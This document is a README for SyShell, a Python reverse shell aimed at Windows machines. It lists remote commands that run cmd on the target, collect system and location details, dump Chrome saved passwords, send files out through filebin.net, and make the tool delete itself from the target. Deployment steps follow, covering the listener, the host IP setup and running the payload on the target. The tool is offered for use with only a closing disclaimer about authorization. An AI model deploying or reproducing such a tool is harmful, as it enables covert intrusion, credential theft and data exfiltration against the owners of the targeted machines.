

# SyShell
⚒️ A simple but fully working reverse shell with built-in commands made in Python. ⚒️


## About
SyShell is a reverse shell that offers pre-built commands while also offering complete control over the machine, specifically built for `Windows` systems (Executer). The listener (Syshell_listener.py) has been tested on both Windows and Linux, both work perfectly. 


## Commands
- `exit` : Exits.
- `getip`: Retrieves general location.
- `sysinfo` : Retrieves System informations.
- `filebin` :  Instead of DIRECTLY uploading from the windows machine to the host machine, we're using: https://filebin.net/ , which is an online free file upload server. Thanks to their API we are able to upload files by performing post requests. **Make sure you create a bin before using this command. Navigate to https://filebin.net/api ----> POST / Upload a file to a bin --> click "Try it out"** Then in the **bin** input, create your own custom ID, upload a test file, then  click **Execute**. Finally you can navigate to your bin by simply visiting `filebin.net/YOUR_BIN_ID` , and you now can upload files in the windows machine from your host machine using the following command:
```
filebin <YOUR BIN ID> <YOUR FILE NAME>
```
- `!browser` : Places Chrome saved passwords in a file `ShellNone_FileStandards_Chrome.txt`. 
- `cmd` : cmd offers the ability to execute cmd commands from host machine.
- `exitcmd` : To Exit cmd mode.
- `clear` : Clears The Screen.
- `!!terminus` : **Exits the session and deletes itself from the target machine.**
- `echo` : `echo <string>`
- `upload` : Currently unavailable / Doesn't work yet.
  


# Deploy

First install required packages.
## Requirements
There's 2 ways to install the required packages / libraries:

1. Simply run : 
```shell
chmod +x build.sh && ./build.sh
```
2. Just use pip:
```py
pip install -r requirements.txt
```
Either will work.

Next step is to deploy.
## Start
- Firstly, start the listener on your host machine, by using: 
```py
python SyShell_Receiver.py
```
OR
```py
python3 SyShell_Receiver.py
```
- Secondly, update your IP address ( Host Machine's Address. ) , you could just run `ifconfig` (linux) or `ipconfig` on windows, and get your host's machine ip address then either run: 
```bash
chmod +x host_ip.sh && ./host_ip.sh <YOUR HOST MACHINE IP ADDRESS>
```
OR: Simply manually open up `SyShell_executer.py` and change (line 26) : 
```
host = 'HOST MACHINE IP ADDRESS'  # HOST MACHINE IP
```
- Finally, on your target machine, run `python SyShell_executer.py` or `python3 SyShell_executer.py` and you should receive a connection back:




# Disclaimer
Use SyShell at your own risk. The author of SyShell does not take any responsibility for any damages or misuse caused by the software. SyShell is provided as-is, without any warranties. It is expected that users of SyShell will utilize (use) it responsibly and ethically, adhering to applicable laws and regulations. By using SyShell, you agree to accept all risks associated with its use. Always ensure that you have proper authorization before using SyShell on any system.
